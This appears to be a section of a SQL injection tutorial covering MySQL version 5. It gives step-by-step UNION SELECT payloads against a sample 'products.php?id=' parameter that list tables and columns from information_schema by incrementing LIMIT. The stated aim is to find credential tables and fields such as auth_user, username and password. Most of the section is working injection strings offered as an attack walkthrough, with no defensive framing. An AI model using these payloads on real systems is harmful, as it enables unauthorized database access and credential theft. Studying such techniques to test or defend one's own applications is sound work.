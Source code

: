 #### 6. MySQL Version 5

   Previously we looked at MySQL that was running below version 5 now let’s look at how to get table and column names
   from MySQL version 5 and above.

   One of the most important things we need is the information_schema this holds all tables and columns in the database.
   To get the tables we need to use table_name and information_schema.tables.
   ```
   http://mysite/products.php?id=5 union all select 1,table_name,3 from information_schema.tables/*
   ```
   
   Here we just replaced our number 2 with table_name to get the first table from information_schema.tables
   then the tables should be displayed on the screen. 
   
   Now we must add LIMIT to the end of the query to list out all tables.
   ```
   http://mysite/products.php?id=5 union all select 1,table_name,3 from information_schema.tables limit 0,1/*
   ```
  **Note:** 0,1 is added after limit this gets the results starting from 0 through 1 as the starting index of a database begins at 0
  
   Next we want to view the second table, so we change limit 0,1 to limit 1,1
  
   ```
   http://mysite/products.php?id=5 union all select 1,table_name,3 from information_schema.tables limit 1,1/*
   ```
   The second table is then displayed.

   For the third table we change limit 1,1 to limit 2,1

   ```
   http://mysite/products.php?id=5 union all select 1,table_name,3 from information_schema.tables limit 2,1/*
   ```
   Let's keep incrementing until some useful like db_admin, poll_user, auth, auth_user etc... 

   To get the column names the method is the same as above. Here we use column_name and information_schema.columns
   ```
   http://mysite/products.php?id=5 union all select 1,column_name,3 from information_schema.columns limit 0,1/*
   ```
   The first column is then displayed.

   The second column we change limit 0,1 to limit 1,1
   ```
   http://mysite/products.php?id=5 union all select 1,column_name,3 from information_schema.columns limit 1,1/*
   ```
   
   The second column should be displayed, continue incrementing until you get something like username,user,login, password, pass, passwd etc...
